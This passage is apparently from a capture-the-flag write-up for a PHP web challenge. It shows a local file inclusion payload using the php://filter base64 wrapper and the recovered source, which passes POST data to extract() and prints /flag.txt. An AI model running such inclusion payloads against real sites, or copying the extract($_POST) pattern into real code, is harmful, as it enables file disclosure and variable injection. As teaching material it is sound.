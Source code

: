 <img src="images/image10.png" width="450">

All we have is a button that submits a post request to the same website. Lets check if the `file` parameter is vulnerable to LFI.

I used the php filter wrapper: `php://filter/convert.base64-encode/resource=phphonebook.php`

<img src="images/image11.png" width="450">

So the website is vulnerable to LFI and encoded the page to base64 just like we expected.. 

After decoding the base64 string we find the following php code:
```
<?php
  extract($_POST);

	if (isset($emergency)){
		echo(file_get_contents("/flag.txt"));
	}
?>
```
